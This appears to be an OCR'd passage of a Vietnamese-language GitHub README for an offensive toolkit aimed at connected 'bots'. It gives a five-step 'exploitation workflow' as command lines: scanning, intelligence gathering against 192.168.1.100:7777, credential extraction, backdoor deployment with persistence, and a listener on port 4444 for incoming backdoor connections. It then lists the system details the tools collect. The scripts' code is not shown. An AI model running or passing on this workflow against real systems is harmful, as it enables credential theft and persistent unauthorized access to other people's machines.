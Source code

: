 ```bash
```

## 🎯 Quy Trình Khai Thác

### Bước 1: Quét và Phân Tích
```bash
# Quét bot đang kết nối
python3 scripts/bot_master_controller.py --scan

# Hoặc sử dụng bot monitor
python3 scripts/bot_monitor.py --scan
```

### Bước 2: Thu Thập Thông Tin
```bash
# Thu thập thông tin tình báo toàn diện
python3 scripts/bot_intelligence.py --intel 192.168.1.100:7777

# Lấy thông tin cơ bản
python3 scripts/bot_exploiter.py --info 192.168.1.100:7777
```

### Bước 3: Trích Xuất Credentials
```bash
# Lấy credentials
python3 scripts/bot_exploiter.py --creds 192.168.1.100:7777

# Hoặc sử dụng intelligence
python3 scripts/bot_intelligence.py --creds 192.168.1.100:7777
```

### Bước 4: Tạo Backdoor
```bash
# Deploy backdoor
python3 scripts/bot_backdoor.py --attack 192.168.1.100:7777

# Tạo persistence
python3 scripts/bot_backdoor.py --persist 192.168.1.100:7777
```

### Bước 5: Khởi Động Listener
```bash
# Khởi động listener để nhận backdoor connections
python3 scripts/bot_backdoor.py --listener 4444
```

## 🔍 Các Loại Thông Tin Có Thể Thu Thập

### 1. **System Information**
- Hostname, OS, kernel version
- Architecture, uptime, memory, disk
- CPU info, timezone, locale
